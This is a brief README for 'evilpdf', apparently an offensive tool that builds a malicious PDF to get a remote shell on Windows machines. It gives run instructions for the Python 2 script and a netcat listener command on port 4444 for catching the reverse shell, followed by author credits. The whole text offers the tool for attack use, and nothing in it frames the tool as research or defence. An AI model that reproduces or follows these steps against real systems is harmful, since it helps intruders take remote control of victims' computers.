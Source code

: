 # evilpdf
Hack windows shell by pdf

[#] Run: python2 evilpdf.py

[#] Manually Listening: nc -lvp 4444

© This tools was created by: @thelinuxchoise

© Modified by: ghosthub (b@b@y)
